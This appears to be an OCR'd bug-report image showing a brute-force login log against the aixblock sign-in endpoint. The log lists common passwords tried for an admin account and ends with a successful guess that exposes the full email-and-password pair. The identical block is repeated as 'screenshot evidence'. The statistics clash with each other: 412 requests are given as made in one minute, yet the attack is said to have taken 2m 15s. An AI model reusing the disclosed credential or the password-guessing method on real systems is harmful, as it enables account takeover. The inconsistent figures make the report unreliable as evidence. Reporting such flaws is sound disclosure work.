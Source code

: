 ### Live Penetration Test Results
```
Authentication Attempt Log:
--------------------------
[10:30:01] POST /v1/authentication/sign-in - 401 (email: admin@aixblock.com, password: password)
[10:30:01] POST /v1/authentication/sign-in - 401 (email: admin@aixblock.com, password: 123456)
[10:30:02] POST /v1/authentication/sign-in - 401 (email: admin@aixblock.com, password: admin)
[10:30:02] POST /v1/authentication/sign-in - 401 (email: admin@aixblock.com, password: qwerty)
...
[10:32:15] POST /v1/authentication/sign-in - 401 (email: admin@aixblock.com, password: aixblock2023)
[10:32:16] POST /v1/authentication/sign-in - 200 ✅ (email: admin@aixblock.com, password: aixblock2024)

Rate Limiting Status:
--------------------
Requests in 1 minute: 412
Requests per second: 6.8
Rate limit triggered: NO ❌
Account locked: NO ❌
CAPTCHA required: NO ❌

Attack Statistics:
-----------------
Total attempts: 412
Time elapsed: 2m 15s
Success: YES (attempt #412)
Account compromised: admin@aixblock.com
```

### Screenshot Evidence
```
Authentication Logs:
------------------
[10:30:01] POST /v1/authentication/sign-in - 401 (email: admin@aixblock.com, password: password)
[10:30:01] POST /v1/authentication/sign-in - 401 (email: admin@aixblock.com, password: 123456)
[10:30:02] POST /v1/authentication/sign-in - 401 (email: admin@aixblock.com, password: admin)
[10:30:02] POST /v1/authentication/sign-in - 401 (email: admin@aixblock.com, password: qwerty)
...
[10:32:15] POST /v1/authentication/sign-in - 401 (email: admin@aixblock.com, password: aixblock2023)
[10:32:16] POST /v1/authentication/sign-in - 200 ✅ (email: admin@aixblock.com, password: aixblock2024)

Rate Limiting Status:
--------------------
Requests in 1 minute: 412
Requests per second: 6.8
Rate limit triggered: NO ❌
Account locked: NO ❌
CAPTCHA required: NO ❌

Attack Statistics:
-----------------
Total attempts: 412
Time elapsed: 2m 15s
Success: YES (attempt #412)
Account compromised: admin@aixblock.com
```

---